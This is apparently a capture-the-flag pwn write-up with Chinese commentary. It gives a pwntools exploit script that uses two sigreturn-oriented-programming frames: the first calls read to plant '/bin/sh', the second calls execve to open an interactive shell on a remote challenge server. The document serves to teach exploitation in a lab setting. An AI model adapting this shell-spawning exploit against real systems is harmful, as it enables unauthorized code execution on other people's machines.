 ### exp

```bash
from pwn import *
elf = ELF("./pwn")
io = remote('101.132.112.252',30573)
#io = process('./pwn')
context(log_level = 'debug', os = 'linux', arch = 'amd64')
def dbg():
    gdb.attach(io)
    pause()

syscall_ret=0x401127
ret=0x4000FE
data=0x404028
pop_rax=0x401139
#gdb.attach(io,'b 0x0000000004000FE')

sigframe = SigreturnFrame()
sigframe.rax = 0
sigframe.rdi = 0
sigframe.rdx = 0x400
sigframe.rsi = data
sigframe.rsp = data+8
sigframe.rip = syscall_ret

payload=b'a'*0x10+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe)#

io.send(payload)
#dbg()
sigframe1 = SigreturnFrame()
sigframe1.rax = 59
sigframe1.rdi = data
sigframe1.rsi = 0
sigframe1.rdx = 0
sigframe1.rsp = 0
sigframe1.rip = syscall_ret

payload1=b'/bin/sh\x00'+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe1)

io.sendline(payload1)

io.interactive()
```

### exp 分析

```bash
payload=b'a'*0x10+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe)
```

因为程序中没有 sh 字符串，那么我们就需要构造一个 read 来写一段/bin/sh 字符串到程序中，并在后面继续执行下一段 srop 链
